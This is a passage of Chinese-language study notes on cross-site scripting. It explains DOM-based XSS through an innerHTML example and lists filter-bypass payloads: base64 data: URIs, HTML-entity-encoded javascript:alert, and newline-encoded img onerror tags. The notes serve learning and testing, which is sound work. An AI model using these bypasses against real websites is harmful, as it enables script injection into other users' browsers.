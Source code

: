 其实存储型和反射型XSS没有本质的区别，只不过是就是是否存放在后端的数据库中。

###5.DOM-based XSS###
当应用的客户端包含JavaScript，能够处理不可信来源的数据，DOM-based XSS就会出现，通常采用将数据写回到DOM的方式。

在下面的例子中，应用采用JavaScript从输入框中读取数据，然后将这个数据写道HTML 的element中：

	var search = document.getElementById('search').value;
	var results = document.getElementById('results');
	results.innerHTML = 'You searched for: ' + search;

如果攻击者能够控制输入数据，就能够构造恶意的代码，触发脚本执行：

	You searched for: <img src=1 onerror='/* Bad stuff here... */'>

常用的例子中，输入数据常常是HTTP请求的一部分，例如URL搜索字符串的参数，允许攻击者发送恶意的URL，和反射型XSS一样的形式。



##可能存在的XSS注入点##
	1.（反射型和存储型）与后端有交互的点
		request method get post。。。
	2.（DOM型）HTML的元素出现的地方	

##可能的利用方法：
	1.data关键字，data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIik8L3NjcmlwdD4=
	或者data:text/html;base64,amF2YXNjcmlwdDphbGVydCgieHNzIik=
	以上语句和 <script>alert("xss")</script> 或者javascript:alert("xss") 的作用是一样的。
	2.javascript:alert(1)关键字被识别过滤，要绕过的话，可以采用unicode转ASCII码，变成&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
	3.href="javascript:alert(1)//aadfsfsdf"  这样的形式也是正常弹框的，javascript:alert(1)这句用上述的ASCII码编码也是一样执行的。
	4.当innerHTML的位置中想要填入
	<img src=1 onerror=alert(1)> 但是该输入中的空格被过滤了，变成了&nbsp;表示不间隔的空格，这时候可以用回车实现，<img%0asrc=1%0aonerror=alert(1)>，效果如下：
	<img
	scr=1
	onerror=alert(1)>
	其中，若回车符号/被过滤了，可以用URL编码%0a代替